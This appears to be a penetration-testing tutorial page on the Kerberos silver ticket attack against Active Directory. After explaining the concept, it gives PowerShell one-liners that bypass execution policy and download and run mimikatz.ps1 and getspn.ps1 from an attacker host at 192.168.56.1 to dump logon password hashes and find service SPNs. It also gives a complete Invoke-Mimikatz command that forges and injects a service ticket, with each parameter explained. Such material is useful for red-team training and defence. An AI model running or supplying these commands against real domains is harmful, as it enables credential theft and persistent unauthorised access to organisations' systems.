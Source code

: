 # Silver Ticket

## Intro

Silver ticket attack is one of the ways to gain domain persistence. Once you have gained domain admin or you could dump hashes of a service account some how. If you have recalled how Kerberos works let’s see where this attack fits in the cycle.

On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](<../../../.gitbook/assets/image (191).png>)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything. A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines. We would generally target these services when it comes to performing a silver ticket attack. CIFS (file system), HOST ( can schedule tasks ), RPCSS Host (runs wmi), WSman/http (ps remoting) all of these use the machine account as there service account.
{% endhint %}

## Dumping Password Hash

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](<../../../.gitbook/assets/image (189).png>)

**Target** – This is the host, which can be copied from the SPN value.&#x20;

```
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](<../../../.gitbook/assets/image (186).png>)

## Forging Silver Ticket

#### the syntax for mimikatz command is:

```
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use&#x20;

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes (default 10 years)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## Host Exploitation with Silver Ticket

By issuing a klist command you can see that we now have the ticket for sql service.

&#x20;

![](<../../../.gitbook/assets/image (190).png>)



more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}



